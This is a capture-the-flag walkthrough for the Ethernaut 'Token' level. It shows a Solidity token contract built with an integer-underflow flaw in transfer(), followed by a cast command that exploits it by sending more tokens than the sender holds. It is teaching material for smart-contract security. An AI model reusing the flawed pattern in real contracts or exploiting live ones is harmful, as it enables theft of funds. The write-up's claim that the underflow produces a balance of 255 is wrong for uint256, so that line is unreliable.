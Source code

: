 ## Token Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

## Solution

To pass this level, we need to send a transaction to cause an underflow resulting in a balance of 255. To do this we send 21 tokens from our address as the statement `balances[msg.sender] -= value` will cause an underflow due to our account only have 20 tokens worth of balance.

### Walkthrough
##### 1. Underflowing our balance
```console
cast send $LEVEL_ADDRESS "transfer(address _to, uint _value)" $LEVEL_ADDRESS 21 --private-key $PRIVATE_KEY
```

## Further Reading
Integer overflows and underflows can be prevented by using OpenZeppelin's [SafeMath library](https://docs.openzeppelin.com/contracts/2.x/api/math)

### [:arrow_left: Back To Main Menu](../)
